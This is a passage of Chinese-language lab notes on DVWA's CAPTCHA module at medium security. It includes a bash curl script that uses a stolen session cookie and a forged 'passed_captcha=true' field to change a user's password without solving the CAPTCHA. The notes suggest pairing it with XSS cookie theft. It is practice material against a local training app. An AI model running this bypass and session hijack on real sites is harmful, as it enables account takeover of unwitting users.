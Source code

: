 如果能搭配 XSS 或其他手段取得 user cookie (因為要先登入過 DVWA) 那就有機會將攻擊自動化

```bash
#!/usr/bin/env bash
# usage: ./change-pwd.sh <new password> <session-id>

HOST=http://dvwa.localtest
NEW_PASSWORD=$1
SESSIONID=$2

curl -v -L \
-X POST "${HOST}/vulnerabilities/captcha/#" \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://dvwa.localtest' \
-H 'Referer: http://dvwa.localtest/vulnerabilities/captcha/' \
-H "Cookie: PHPSESSID=${SESSIONID}; security=medium" \
--data-raw "step=2&password_new=${NEW_PASSWORD}&password_conf=${NEW_PASSWORD}&passed_captcha=true&Change=Change"
```

```bash
./test.sh 2222 3l7tambvpgcbe10cdc14rfbo84
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2050.png)
